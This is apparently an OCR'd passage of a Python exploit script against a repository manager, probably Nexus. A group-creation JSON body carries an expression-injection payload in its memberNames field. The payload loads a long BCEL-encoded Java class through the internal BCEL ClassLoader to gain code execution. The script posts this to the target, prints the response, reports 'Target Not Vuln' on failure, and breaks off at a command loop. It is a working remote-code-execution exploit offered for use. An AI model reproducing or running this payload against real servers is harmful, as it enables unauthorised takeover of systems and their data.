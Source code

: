         {
            "name": "internal",
            "online": true,
            "storage": {
                "blobStoreName": "default",
                "strictContentTypeValidation": true
            },
            "group": {
                "memberNames": ["${' '.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$eb$7f$UW$Z$7eN$b2$d9$99L$s$9bd6$9bd$A$xH$80M$80$5dJ$81$96$e5bC$K$e5$S$u$924$YR$ad$93eH$W6$3b$db$d9$d9$Q$d0j$d1Z$ea$adVQ$yj$d1R5$de5$a2$h$q$82h$V$b5$9f$fc$ea7$3f$f6$_$e0$83$3f$7f$8d$cf$99$dd$N$d9d$5b$fc$R$ce$ceyo$e7y$df$f3$3e$ef$cc$db$ef$de$bc$N$60$L$fe$a1$n$IGAVC$N$9cz$$$cfI$89$ab$m$a7$e2i$Nm$f04$e41$n$97$b3$w$s$a5$e4$9c$8a$f3$K$86U$7cR$c5$a74t$e0y$v$fd$b4$8a$cfhX$81$XT$5cP$f0Y$v$fa$9c$82$X5$7c$k$_$a9$b8$a8$e2e$F_P$f1E$V_R$f1e$F_Q$f1$8a$8a$afjx$V_$93$cb$d7$V$5cR$f0$N$N$df$c4e$Nk$f1$z$Nk$f0$9a$82$x$g$ba$e1$c8$cd$b7$e5$d3wT$7cW$fe$be$aea$r$ae$ca$e5$7b$K$be$af$e0$N$81$a07$e6$da$d6I$B$a3$ef$b45a$c5$d3Vf4$3e$e0$cbvP$bb3$95Iy$bb$Fj$a3$5d$83$C$81$5e$e7$a4$z$d0$d4$97$ca$d8G$f2$e3$p$b6$3b$60$8d$a4m$e9$ec$q$ad$f4$a0$e5$a6$e4$be$q$Mxc$a9$9c$40C$9f$3d$91J$c7$e5$c2$88$ea$ced$ba$U3$b4$df$f3$b2$bdN$sc$t$bd$94$93$RhY$A$a17m$e5r$b4o$Y$93Fc$W$ad$d2$95$m$9f$g9MGi$b2$7f$a1$89$e2$da$cf$e5$ed$9cG$f0cL$c2v$x$bd$fa$3d7$95$Z$95$40$5c$3b$97u29$C$N$9euS$9e4$8c$U$NSN$fc$u$ad$bc$e3$be$98$b6$b5$c9qV$u$3c$5c$zNM$969$86$Xh$8e$baN$d2$f6$b1$d7$8c0f$c7$7c$cc$3d$f9S$a7l$d7$3ey$cc$87$r$f5$b9$91y$fd$82$a0E$3b$ea$D$ac$94$84G$a4$f94$T$K$8d$z$wX$d0$f1k$m$a0$Xo$d1$bf$F$c21$X$c4t$edSi$da$c4$f7$a5$ec$b4$bc$d2$d0$C$d3$c3V$96$d8$x$F$y$fc$f9$f3$C$9a$t$_$d1wbM$8b$e7$e4$W$d5$60$fe$G4$3b$e3$b9$e7$fc$xcw$f8$9bA$x$9d$_$bb$b7Uv$c7$b9l$b9CZ$X_$f8$ce$ee$dd$M$d7$d8$efY$c93$c4$e2$9b$91U$K$ae$91$V$q$I$d9$40$S$u8$a8$e0M$bf$f5$af$94$fbX$ebw$f2n$92$t$ca$b8$f5$b2$d9b2$b6$8emx$b4$q$f0$5bP$t$7f$b7$ea$f8$B$7e$u$d0$bc$b8$e3u$fc$IS$3cL$c7$8f$f1$T$j$3f$c5$cf$E$3a$a5QL$g$c5$G$ee$X$aas$a0$a2h$3a$7e$8e_$I$d4y$c5$bc$ba$ff$l$9f$ce$bd$b2Nt$9a$90$a5$d2$f1K$fcJ$c7$af1$z$b0$ceqGc6y$92$cd$d9$b1$d3$b6$e7$9d$8b$e5lw$c2vc$95$8c$d1$f1$h$5c$e7$8d$8e$da$5e$F$F$9a$WUU$c7o$f1$bb$8at$8b7$a7$a0$a0c$G7X$3d$868V$e6M$bd$8cW$a2N$f3$e2$e6$q$Z$b6l$daB$d2$f9$ke$GI$97$e3$r$S$85$abp$88$W$f1$91T$s$3eb$e5$c6$d8$f7$h$93$K$7e$af$e3$sfu$fc$B$b7$d8$n$d59$c2N$$$x$Od$b2y$8f$Qlk$bc$a8c$H$e8$b8$8d$3f$ca$h$be$p$97$3f$95$c3$y$a1$92$8e$3fcZ$c7$5b$f8$8b$80$d0t$fcU$ee$ee$e2o$3a$fe$$$9bc$e5$7d$af$D$e9$b4$3dj$a5$7b$92$92$c1$7b$t$93v$b6H$b4$f0$7d$93$F$d2$f6$f7$60$Z$t$d9$92q$c0$aeN$e6$5d$97$dc$Y$u$N$dc$d6hW$b5$91$db$ccR$3e$c1$cb$b7X$85R$b4$8d$d1$a5$83$a7$eb$7d$u$de$98$b3$bdb$K$a9$e2$m$8e$9e$90$d3$bb$96$91$F$d6F$972$b8$ab$g$a9$95S$8e$7b$c4$g$a7$ff$9a$H$9c_$9e$d5$w$P$u$N$81p$b4$9a$81B$83b$c8$ca$e4$e7$87i$90$3d$e8O$b0H5$94$t$8a$8dv$d8$f6$c6$i$96$e5$f1$w$b0$86$97$9cZ$adP$c5$I$3c$af$e3$bdt$84$92$caL8g$Iu$7b$V$uU$a6$60$d5$g$$$e8$83c$f9$8c$97$92$a9$fb$5c$xo$o$Vu$u$89$e5$e8$b7$t$ed$a4$404Z$e5$9d$d3U$f5e$p$a7$c0$C$92$b0$3b$cb$a1$x$d9$p$b3$8eVU$c8$k$J$dfW$95$5eSR$aa$fas$ab$f82$b2$b2Y$3b$c3$falx$40S$yz$97$a9$9eS$k$mu$fe$ebv$d1$j$97$p$f0$b4$bad$da$c9$d9X$c5$ef$aa$m$bf$b7X19$b3$f9T$c3g$8es$ae$8fq$X$e7$af$e0o$5d$f7$M$c4$b4$af$de$ce5$e8$LU$q$b8$eaE$D$ec$c0N_$b6$ab$ec$i$e8$a4$dd2$c6$7es$W5C3$a8$bd$8e$c0$N$d4$j2$82$86R$80$da$b7$3eP$40$fd$fa$ee$C$b4$c3F$c3$N$e8G6$g$8d$94$t$Cf$40j$cc$c0$G$aa$ee$m$c4$bfD$9d$d1D$8bD$d0$M$g$cd$d2F1$V$df$a6$$$a1$9a$ea$edm$f5$b5$db$b4$88$W$a9$bf$s$b6$9ajD$db$9ch0$h$ee$8a$d5$a6b60FB7$f5$bb$a2$d9$d4$Lh$v$c00$c2$F$b4$5e$e1$d8$93$fbD$a3$d9hDjo$a1$ad$80vS$e7CG$Bf$od$86$a4$b2$c9l2$96$95$95$a1$b2$b2$d9$q$86$Wcy$80$8a$a1ZcE$bf$d46s$d7$c1$dd$H$b83$ef$60E$a2$85$be$P$z$f15LC$fa$7e$b0$ac0J$8a$3bX$99$I$Hoa$FC$ac$ea$l$K$Y$l$ea$l$aa3$5b$fa$T$ad7$b0$dal$z$a03$R$99$c5$9a$a1Y$ac$j2$p$F$ac$9bAt$G$5d$89$b6Yt$b3$b6$eb$T$ed$s$e3m$YJt$dcE$d8l7$Zs$a3$R$e3r$7cj$ee$j$b3$bd$80x$c24$c3$a6Y$c0$s$93$f9$3f$3c$85$ba$84$fe$a2$s$a6$de$7d$7b$K$81C$d3$bc$d8IqI$5c$c6fh$e2$aax$D$8f$m$e0_$f5U$ac$e3Z$cf$fehD$IM$fcxn$c6r$84$d99m$d4t$b0CL$f6$cdr$f4$e2$n$i$e4Go$3f5CX$8d$i$3a1$c9$af$e5$L$b4z$JQ$5cF$X$5e$c7z$5c$c7$G$be$93b$f8$t6$e1$k$k$W$3a6$8b$u$k$R$bb$b0E$3c$89$ad$e2$Zl$T6$k$TYl$X$_$60$87$b8$88$5d$e2$V$ec$W$97$d0Kt$3d$e25$ac$WW$b1$9f$I$f7$89k$3cQ$b6$e0$3bhg$ec$7b$d8$8d$P$T$e5u$fc$h$8f$a3$87ho$e2_$d8CY$TO$7b$8b$I$7b$88$fd$k$z$9f$c0$5e$b4$f0$e4$8b$d8G$99$c1$f3$cf$e0I$ecG$98$u$Gq$80Q$5b$89$a5$P$87$f8$3fBD$8f$e20$8e$a0$8d$b8bx$KG$d1$$$c6$99$d9G$Y$a5$83$f8t$i$e3$93$89$L$c2$60$f6$3d$dc$e7$c4$g$M$f0$a9$B$n$f1j$89Wm$e2e$3c$cd$e8$C$ab$c4$f38Nm$N$d6$89$b3$f8$u$f1$d5$o$$$iVm$905$ef$V$c38$81a$S$ea$a0$Y$c03$d4$G$d1$_$O$e1c$d4$w$f8$b8$8cD$cfb$b6$cf2$dbb$8e$cf2$c7OP7$8d$fa9$d8hP$60$v$YQ$c0o$80$93$feCh$feA$90$aes$fc$d7$f1$be6$be$b8$a8$99_m$7f$3d$a5$60T$c1$98$82$94$82$d3$c0$7f$b1$8c$9a9$Y$d0$l$U$Q$d8$a3$e0$cc$7f$m$e6$98$j$fc$5dZ$8e$9eq$7f$aed$fe$H$c3$e0$Q$5e$fb$N$A$A').newInstance()}"]
            }
        }
        """
        try:
            r = requests.post(url=cmd_url, data=cmd_data, headers=cmd_headrs, timeout=20)
            print (r.text)
        except:
            print ("[-] Target Not Vuln Good Luck!!!")
            sys.exit(0)
    while 1: